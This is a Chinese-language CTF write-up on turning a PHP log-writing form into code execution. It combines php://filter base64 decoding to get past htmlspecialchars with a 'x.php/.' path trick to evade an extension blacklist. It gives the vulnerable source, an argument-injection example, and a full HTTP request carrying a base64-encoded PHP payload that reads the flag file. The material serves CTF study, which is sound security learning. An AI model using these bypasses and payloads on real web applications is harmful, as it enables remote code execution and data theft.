


# 利用php://filter绕过限制写入文件


### 一.	CTF题目

```php
<?php
if(isset($_GET['read-source'])) {
    exit(show_source(__FILE__));
}

define('DATA_DIR', dirname(__FILE__) . '/data/' . md5($_SERVER['REMOTE_ADDR']));

if(!is_dir(DATA_DIR)) {
    mkdir(DATA_DIR, 0755, true);
}
chdir(DATA_DIR);

$domain = isset($_POST['domain']) ? $_POST['domain'] : '';
$log_name = isset($_POST['log']) ? $_POST['log'] : date('-Y-m-d');
?>
<!doctype html>
<html lang="en">
<head>
    <!-- Required meta tags -->
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">

    <!-- Bootstrap CSS -->
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@4.1.3/dist/css/bootstrap.min.css" integrity="sha256-eSi1q2PG6J7g7ib17yAaWMcrr5GrtohYChqibrV7PBE=" crossorigin="anonymous">

    <title>Domain Detail</title>
    <style>
    pre {
        width: 100%;
        background-color: #f6f8fa;
        border-radius: 3px;
        font-size: 85%;
        line-height: 1.45;
        overflow: auto;
        padding: 16px;
        border: 1px solid #ced4da;
    }
    </style>
</head>
<body>

<div class="container">
    <div class="row">
        <div class="col">
            <form method="post">
                <div class="input-group mt-3">
                    <div class="input-group-prepend">
                        <span class="input-group-text" id="basic-addon1">dig -t A -q</span>
                    </div>
                    <input type="text" name="domain" class="form-control" placeholder="Your domain">
                    <div class="input-group-append">
                        <button class="btn btn-outline-secondary" type="submit">执行</button>
                    </div>
                </div>
            </form>
        </div>
    
    </div>

    <div class="row">
        <div class="col">
            <pre class="mt-3"><?php if(!empty($_POST) && $domain):
                $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
                $output = shell_exec($command);

                $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES);

                $log_name = $_SERVER['SERVER_NAME'] . $log_name;
                if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
                    file_put_contents($log_name, $output);
                }

                echo $output;
            endif; ?></pre>
        </div>
    </div>

</div>

</body>
</html> 1
```

有两个可疑的漏洞点：1.拼接参数"domain"后执行dig命令2.拼接参数"log"后写入日志文件

```php
...
  $command = sprintf("dig -t A -q %s", escapeshellarg($domain));
  $output = shell_exec($command);
  $output = htmlspecialchars($output, ENT_HTML401 | ENT_QUOTES)
  $log_name = $_SERVER['SERVER_NAME'] . $log_name;
  if(!in_array(pathinfo($log_name, PATHINFO_EXTENSION), ['php', 'php3', 'php4', 'php5', 'phtml', 'pht'], true)) {
        file_put_contents($log_name, $output);
  }
...
```


### 二.	解题思路

#### 1.拼接参数"domain"后执行dig命令：

* 在Linux中是可以通过"command1&command2"、"command1&&command2"、"command1|command2"和"command1;command2"的方式来执行command2。但这里有个过滤函数**escapeshellarg()** —— **escapeshellarg()** 将给字符串增加一个单引号并且能引用或者转码任何已经存在的单引号，这样以确保能够直接将一个字符串传入 shell 函数。绕过的方式就是参数注入，例如gitlist远程命令执行漏洞：

  ```git
  git grep -i --line-number '--open-files-in-pager=id'
  ```

  攻击者输入的字符串被当成了参数执行，导致了漏洞。但这个绕过方式有两点要求：1.该命令存在某个参数，使得该参数的值会被执行2.输入的字符串要放在参数选项的位置而不是参数值的位置。而题目显然不符合这两点要求

#### 2.拼接参数"log"后写入日志文件：这里有两个过滤点

* **htmlspecialchars()**。**htmlspecialchars()** 会将预定义的特殊字符转义为实体编码，这其中就包括php文件必需的尖括号。这个过滤是无法像构建特殊语句绕过正则一样直接绕过的，但是"php://filter"中有个转换过滤器 —— "convert.base64-decode"，可以将数据流进行base64解码。所以我们可以将代码进行base64编码然后借助"php://filter/convert.base64-decode/resource=filename.php"的方式绕过**htmlspecialchars()**。为了确保base64正确解码出输入的代码，需要确保输入之前的有效字符个数为4的倍数(因为base64解码是以四个字符为一组，自动跳过无效的字符)。查看下返回值，之前的字符为

  ```html
  ; &lt;&lt;&gt;&gt; DiG 9.9.5-9+deb8u15-Debian &lt;&lt;&gt;&gt; -t A -q
  ```

  去掉无效的字符后为"ltltgtgtDiG9959+deb8u15DebianltltgtgttAq"长度刚好为40，所以无需填充字符。另外base64编码后的等号只会出现在结尾(填充位)，构造的payload不能包含等号。在实际操作中遇到一个小坑，在最后一步读取Flag时传入"PD9waHAgZWNobyByZWFkZmlsZSgiL3Zhci93d3cvZmxhZ19waHBtYWcxY191cjEiKTsvKmFh"返回为空，在本地测试后发现当dig命令的"-q"参数的参数值长度超过63时会产生错误：

  

  所以需要简化payload："<?=\`cat /var/www/flag_phpmag1c_ur1`;/*a"

* 黑名单过滤"['php', 'php3', 'php4', 'php5', 'phtml', 'pht']"。这里需要用到一个技巧"filename.php/." => "filename.php"，因为php在进行路径处理的时候，会递归删除掉路径中的"/."

最终的payload如下：

```http
POST / HTTP/1.1
Host: php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://51.158.75.42:8082/
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Connection: close
Upgrade-Insecure-Requests: 1

domain=PD89YGNhdCAvdmFyL3d3dy9mbGFnX3BocG1hZzFjX3VyMWA7Lyph&log=%3A%2F%2Ffilter%2Fconvert.base64-decode%2Fresource%3D%2Fvar%2Fwww%2Fhtml%2Fdata%2Ff528764d624db129b32c21fbca0cb8d6%2Fx.php%2F.
```


